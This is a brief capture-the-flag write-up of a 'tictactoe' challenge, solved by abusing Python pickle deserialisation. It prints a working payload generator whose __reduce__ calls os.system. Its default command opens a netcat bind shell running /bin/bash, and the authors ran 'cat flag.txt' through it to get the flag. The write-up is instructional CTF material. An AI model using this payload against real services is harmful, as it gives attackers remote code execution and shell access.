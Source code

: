 # tictactoe

## Challenge Summary

The challenge was based on the python deserialisation bug. THis challenge was very similar to a challenge fromTamuCTF from the previous year involving he cpickle module instead of pickle which is used in the challenge here.

The challenge allowed us to play the tictactoe gane and win 133713371337 times to get the flag in the straightforward way but our goal is to somehow trick the load progress function to fetch the flag from the pickle.dumps()'

```python
import Pickle
import sys
import base64

DEFAULT_COMMAND = "netcat -c '/bin/bash -i' -l -p 4444"
COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

print base64.b64encode(Pickle.dumps(PickleRce()))

```
We passed `cat flag.txt` as commandline argument to this python script which generates the base64 encoded pickle dump for ourinput which the server reads and executes in our challenge.

The base64 dump we get is sent to the sever and we get the flag!!

flag: `gigem{d0esnt_looK_lik3_5t4rs_t0_M3}`
## Resources
https://medium.com/hackstreetboys/tamuctf-2019-pwn-write-up-4-6-of-6-174e41a4a9ca
